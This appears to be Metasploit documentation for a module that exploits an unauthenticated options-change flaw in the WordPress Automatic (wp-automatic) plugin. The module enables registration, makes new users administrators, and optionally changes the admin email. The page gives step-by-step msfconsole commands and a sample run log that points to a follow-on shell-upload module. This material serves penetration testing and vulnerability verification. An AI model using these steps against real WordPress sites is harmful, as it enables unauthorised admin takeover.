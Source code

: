 ## Vulnerable Application

This module exploits an unauthenticated arbitrary wordpress options change vulnerability
in the Automatic (wp-automatic) plugin.

If `WPEMAIL` is provided, the administrator's email address will be changed.

User registration is enabled, and default user role is
set to administrator.  A user is then created with the `USER` name set.
A valid `EMAIL` is required to get the registration email (not handled in MSF).

A vulnerable version of the plugin can be downloaded [here](https://legendblogs.com/wp-automatic-plugin-free-download)

## Verification Steps

1. Install the vulnerable plugin
1. Start msfconsole
1. Do: `use auxiliary/admin/http/wp_automatic_plugin_privesc`
1. Do: `set rhosts [IPs]`
1. Do: `set email [email address]`
1. Do: `run`
1. You should get an email to setup your new admin account.

## Options

### EMAIL

Email for registration. No default.

### USER
Username for registration, defaults to `msfuser`

### WPEMAIL

Wordpress Administration Email. No default.

## Scenarios

### wp-automatic 3.50.7 on Wordpress 5.4.4 No WPEMAIL

```
resource (automatic.rb)> use auxiliary/admin/http/wp_automatic_plugin_privesc
[*] Using auxiliary/admin/http/wp_automatic_plugin_privesc
resource (automatic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (automatic.rb)> set verbose true
verbose => true
resource (automatic.rb)> set email fake@example.com
email => fake@example.com
resource (automatic.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[!] Enabling user registrations...
[!] Setting the default user role type to administrator...
[*] Registering msfuser with email fake@example.com
[+] For a shell: use exploits/unix/webapp/wp_admin_shell_upload
[*] Auxiliary module execution completed
```
